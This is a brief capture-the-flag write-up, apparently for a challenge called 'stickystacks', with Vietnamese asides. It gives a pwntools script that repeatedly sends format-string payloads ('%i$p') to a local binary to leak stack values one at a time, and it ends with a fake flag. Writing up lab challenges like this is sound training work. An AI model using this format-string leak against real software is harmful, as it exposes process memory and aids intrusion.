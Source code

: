 this chall limits our input

```c
fgets(name, 6, stdin);
```

so, we have to run it over and over to leak i th value from the stack: [minh run locally thoi]

```python
# expoit.py
from pwn import *
data_list = []
for i in range(1, 50):
    # run '77' 49 lan
    p = process('./stickystacks')
    p.sendline(f'%{i}$p')
    p.recvuntil('Welcome, ')        # pass 'Welcome, '
    leak_stack = p.recvline()[:-1]  # [:-1] - avoid '\n'
    if(leak_stack != b'(nil)'):
        data_list.append(p64(int(leak_stack.decode(), 16)))
    continue
print(data_list)
```

Result: [fake_flag :v]

![](fake_flag.png)

